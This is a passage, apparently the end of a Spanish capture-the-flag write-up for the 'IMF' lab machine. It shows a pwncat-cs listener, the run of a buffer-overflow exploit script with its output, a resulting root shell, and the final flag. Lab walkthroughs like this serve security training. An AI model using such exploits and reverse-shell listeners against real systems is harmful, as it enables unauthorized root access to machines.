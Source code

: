 Ahora nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Lanzamos nuestro exploit.
```console
python3 bof.py
[+] Conectando al cliente
[+] Autenticando con el AGENT_ID: b'48093572'
[+] Enviando: b'3'
[+] Enviando payload de tamaño 95 bytes...
[+] Respuesta del servidor:
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID :
```

Y podemos ver que ganamos acceso al sistema como `root` en la sesión de `pwncat-cs`
```console
(remote) root@imf:/# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos ver la sexta flag.
```console
root@imf:/root# cat Flag.txt
flag6{R2gwc3RQcm90MGMwbHM=}
```

¡Y ya estaría!

Happy Hacking! 🚀